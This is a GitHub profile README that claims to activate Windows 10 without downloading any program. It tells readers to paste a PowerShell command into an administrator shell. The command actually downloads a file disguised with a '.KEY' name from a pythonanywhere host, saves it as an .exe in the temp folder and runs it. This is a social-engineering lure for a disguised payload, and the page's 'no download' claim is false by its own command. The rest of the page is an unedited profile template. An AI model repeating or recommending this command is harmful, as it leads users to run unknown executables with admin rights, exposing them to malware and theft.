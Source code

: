 ### Hi there 👋
⚡ How to Activate Windows 10 the Right Way, Without Downloading Program. Activate Windows 10 Just Using Native [ Windows PowerShell (Admin) ].

To activate Windows 10 copy and paste the command in [ Windows PowerShell (Admin) ].


ATTENTION ⚡ Copy the complete command ⚡
> Invoke-WebRequest -Uri https://downloadapplication.pythonanywhere.com/static/TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.KEY -OutFile $env:TEMP\WindowsKEY.exe; Start-Process $env:TEMP\WindowsKEY.exe


<!--
**activate-windows/activate-windows** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
